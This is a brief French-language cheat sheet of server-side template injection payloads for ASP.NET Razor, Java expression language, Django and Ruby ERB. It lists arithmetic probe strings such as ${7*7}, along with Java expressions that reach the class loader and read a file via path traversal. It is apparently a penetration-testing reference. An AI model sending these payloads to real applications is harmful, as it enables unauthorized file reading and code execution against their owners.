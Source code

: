 ### ASP.NET Razor

```asp
@(1+2)
```

Execution de commande :

```asp
@{
Code en C
}
```

### Java

```Java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

```Django
{% csrf_token %} # doit causer une erreur
{{ 7*7 }}  # doit causer une erreur
ih0vr{{364|add:733}}d121r
```

### Ruby

```Ruby
<%= 7 * 7 %>
```
